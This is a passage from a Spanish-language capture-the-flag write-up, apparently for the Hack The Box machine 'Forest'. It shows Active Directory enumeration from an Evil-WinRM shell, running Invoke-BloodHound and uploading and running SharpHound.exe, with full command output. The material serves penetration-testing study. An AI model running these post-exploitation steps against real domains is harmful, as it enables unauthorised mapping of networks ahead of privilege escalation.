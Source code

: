 * Cuando ya sepas qué función usar, aplícala en la sesión de **Evil-WinRM**:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> Invoke-BloodHound -CollectionMethods All
...
...
```

<br>

*Opción 2* - Cargarlo desde la sesión de **Evil-WinRM**:

* Si tienes el binario **SharpHound.exe** en tu directorio de trabajo, tan solo hay que subirlo a la sesión de **Evil-WinRM**:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> upload SharpHound.exe
Info: Uploading ../content/SharpHound.exe to C:\Users\svc-alfresco\Documents\BHbrsk\SharpHound.exe                                       
Data: 1402880 bytes of 1402880 bytes copied                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> dir
*
    Directory: C:\Users\svc-alfresco\Documents\BHbrsk
*
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/10/2024  12:54 PM        1052160 SharpHound.exe
```

* Y listo, ya lo podemos usar:
```batch
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\BHbrsk> .\SharpHound.exe -c All
2024-10-10T12:56:59.1026939-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-10-10T12:56:59.2589480-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-10T12:56:59.2745710-07:00|INFORMATION|Initializing SharpHound at 12:56 PM on 10/10/2024
2024-10-10T12:56:59.4620680-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
2024-10-10T12:56:59.5870704-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-10-10T12:57:00.2120671-07:00|INFORMATION|Beginning LDAP search for htb.local
2024-10-10T12:57:00.2589409-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-10-10T12:57:00.2589409-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-10-10T12:57:30.3371394-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
2024-10-10T12:57:44.8840436-07:00|INFORMATION|Consumers finished, closing output channel
2024-10-10T12:57:45.0090438-07:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-10-10T12:57:45.1809255-07:00|INFORMATION|Status: 161 objects finished (+161 3.659091)/s -- Using 47 MB RAM
2024-10-10T12:57:45.1809255-07:00|INFORMATION|Enumeration finished in 00:00:44.9765817
2024-10-10T12:57:45.4152926-07:00|INFORMATION|Saving cache with stats: 118 ID to type mappings.
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-10-10T12:57:45.4309201-07:00|INFORMATION|SharpHound Enumeration Completed at 12:57 PM on 10/10/2024! Happy Graphing
```

